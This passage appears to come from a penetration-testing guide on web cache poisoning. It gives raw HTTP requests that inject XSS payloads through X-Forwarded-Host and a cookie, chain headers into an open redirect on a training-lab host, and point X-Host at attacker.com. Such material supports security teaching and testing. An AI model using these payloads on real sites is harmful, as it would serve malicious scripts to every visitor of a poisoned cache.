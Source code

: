 ## Examples

### Easiest example

A header like` X-Forwarded-For` is being reflected in the response unsanitized>\
You can send a basic XSS payload and poison the cache so everybody that access page will be XSSed:

```markup
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"
```

_Note that this will poison a request to `/en?region=uk` not to `/en`_

### Using web cache poisoning to exploit cookie-handling vulnerabilities

Cookies could also be reflected on the response of a page. If you can abuse it to cause a XSS for example, you could be able to exploit XSS in several clients that load the malicious cache response.

```markup
GET / HTTP/1.1
Host: vulnerable.com
Cookie: session=VftzO7ZtiBj5zNLRAuFpXpSQLjS4lBmU; fehost=asd"%2balert(1)%2b"
```

Note that if the vulnerable cookie is very used by the users, regular requests will be cleaning the cache.

### Using multiple headers to exploit web cache poisoning vulnerabilities <a href="using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities" id="using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities"></a>

Some time you will need to **exploit several ukneyed inputs **to be able to abuse a cache. For example, you may find an **Open redirect** if you set `X-Forwarded-Host` to a domain controlled by you and `X-Forwarded-Scheme` to `http`.**If **the **server **is **forwarding **all the **HTTP **requests **to HTTPS **and using the header `X-Forwarded-Scheme` as domain name for the redirect. You can control where the pagepointed by the redirect.

```markup
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: ac8e1f8f1fb1f8cb80586c1d01d500d3.web-security-academy.net/
X-Forwarded-Scheme: http
```

### Exploiting with limited `Vary`header

If you found that the **`X-Host`** header is being used as **domain name to load a JS resource** but the **`Vary`** header in the response is indicating **`User-Agent`** . Then, you need to find a way to ex-filtrate the User-Agent of the victim and poison the cache using that user agent:

```markup
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```
